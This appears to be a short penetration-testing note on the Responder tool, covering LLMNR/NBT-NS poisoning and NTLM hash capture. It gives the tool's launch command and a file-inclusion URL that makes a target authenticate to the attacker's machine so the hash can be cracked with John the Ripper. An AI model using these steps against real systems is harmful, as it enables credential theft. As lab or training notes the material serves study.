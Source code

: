 # Responder

## Overview

IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

https://github.com/lgandx/Responder


## SMB NTLMv1/v2 Relay

When the target machine attempts to perform the NTLM authentication to that server, Responder
sends a challenge back for the server to encrypt with the user's password. When the server responds,
Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't
reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same
challenge-response, and if we find one, we know that is the password. This is often referred to as hash
cracking, which we'll do with a program called John The Ripper.

Check in the Responder.conf file that the flag for SMB is ON.
Then run Responder with
	sudo python3 Responder.py -I <interface_name> (or sudo responder -I <interface_name>)
Now that the Responder server is listening, we make a request for a nonexistent file in our local machine so that Responder can get the NTLVM hash/challenge
	http:\\<target_ip>/?page=//<our_ip>/somefile

Then we just crack the hash with brute force

## Installation

	git clone https://github.com/lgandx/Responder
	Default installation path (in Kali):  /usr/share/responder/

## Command Options

	-I <interface_name> : Sets which interface to linsten/use
